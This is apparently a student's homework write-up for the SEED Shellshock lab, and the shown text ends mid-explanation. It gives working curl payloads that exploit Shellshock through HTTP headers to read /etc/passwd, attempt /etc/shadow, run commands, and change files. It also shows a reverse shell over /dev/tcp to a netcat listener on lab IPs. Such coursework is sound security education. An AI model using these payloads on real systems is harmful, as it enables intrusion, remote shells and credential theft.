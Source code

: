 ```yaml
---
sidebar_position: 4
id: HW3
title: HW3
tags:
  - Study
  - Graduate
  - System Security
---
```


## Task 3: Launching the Shellshock Attack

### Task 3.A: Retrieve /etc/passwd (Using User-Agent)

![Task 3A](https://jcqn.oss-cn-beijing.aliyuncs.com/img_blog/523SS/HW3/task3-a.png)  

We use the `curl` command with the `-A` option to set the `User-Agent` header:

```bash
curl -A "() { :;}; echo Content-type: text/plain; echo; cat /etc/passwd" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
```

As shown above, the Shellshock exploit executes the `cat /etc/passwd` command.


### Task 3.B: Get Process User ID (Using Referer)

![Task 3B](https://jcqn.oss-cn-beijing.aliyuncs.com/img_blog/523SS/HW3/task3-b.png)

We use the `-e` option to set the `Referer` header:

```bash
curl -e "() { :;}; /bin/bash_shellshock -c 'echo Content-type: text/plain; echo; /bin/id'" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
```

The output indicates that the server process runs as the `www-data` user, which shows that the exploit successfully executes `/bin/id`.


### Task 3.C: Create a File in /tmp (Using Custom Header)

![Task 3C](https://jcqn.oss-cn-beijing.aliyuncs.com/img_blog/523SS/HW3/task3-c.png)  

We use the `-H` option to set a custom header `X-Shellshock`:

```bash
curl -H "X-Shellshock: () { :;}; /bin/bash_shellshock -c 'echo Content-type: text/plain; echo; touch /tmp/myfile'" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
```

No output is returned, as `touch` produces none.  
But after entering the container with `docker exec -it 68997b4796f2 /bin/bash` and running `ls /tmp`, we can see `myfile` listed.


### Task 3.D: Delete the File in /tmp (Using Custom Header)

![Task 3D](https://jcqn.oss-cn-beijing.aliyuncs.com/img_blog/523SS/HW3/task3-d.png)

We reuse the `X-Shellshock` header:

```bash
curl -H "X-Shellshock: () { :;}; /bin/bash_shellshock -c 'echo Content-type: text/plain; echo; rm /tmp/myfile'" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
```

Checking again with `ls /tmp` inside the container shows `myfile` no longer exists.


### Question 1: Can we steal `/etc/shadow` from the server?

We can test with:  
```bash
curl -A "() { :;}; /bin/bash_shellshock -c 'echo Content-type: text/plain; echo; cat /etc/shadow'" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
```

![Question 1](https://jcqn.oss-cn-beijing.aliyuncs.com/img_blog/523SS/HW3/task3-Q1.png)

So the answer is:  
**No**. Because the attack runs as `www-data`, which lacks the necessary permissions to read `/etc/shadow`:


### Question 2: Can we use QUERY_STRING to launch the attack?

We can test with:  
```bash
curl "http://www.seedlab-shellshock.com/cgi-bin/vul.cgi?() { :;}; echo vulnerable"
```

![Question 2](https://jcqn.oss-cn-beijing.aliyuncs.com/img_blog/523SS/HW3/task3-Q2.png)

So the answer is:  
**No**. The output is a `400 Bad Request` error, indicating the server rejected the request.  
`QUERY_STRING` field in the URL would not be parsed as a function definition that `bash_shellshock` can execute.


## Task 4: Getting a Reverse Shell via Shellshock Attack

![Task 4](https://jcqn.oss-cn-beijing.aliyuncs.com/img_blog/523SS/Studio6/task4.png)  

We establish a reverse shell from the victim server (`10.9.0.80`) to the attacker machine (`10.0.2.15`). 

1. First, on the attacker VM, we start a listener:
    ```bash
    nc -nv -l 9090
    ```
2. Then, in a second terminal, we launch the attack using the `User-Agent` header:
    ```bash
    curl -A "() { :;}; /bin/bash_shellshock -c '/bin/bash -i > /dev/tcp/10.0.2.15/9090 0<&1 2>&1'" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
    ```

We can see that the `nc` terminal shows `Connection received on 10.9.0.80 40356`, followed by a shell prompt: `www-data@68997b4796f2:/usr/lib/cgi-bin$`. We observe messages like _bash: cannot set terminal process group (32): Inappropriate ioctl for device_ and _bash: no job control in this shell_, which are expected in a reverse shell without a proper terminal.

:::tip Payload Explanation

- `() { :;};` triggers the vulnerability by defining a function, allowing commands following it to be executed.
- `/bin/bash_shellshock -c` Executes our command in a vulnerable shell.
- `/bin/bash -i` starts an interactive shell.
- `> 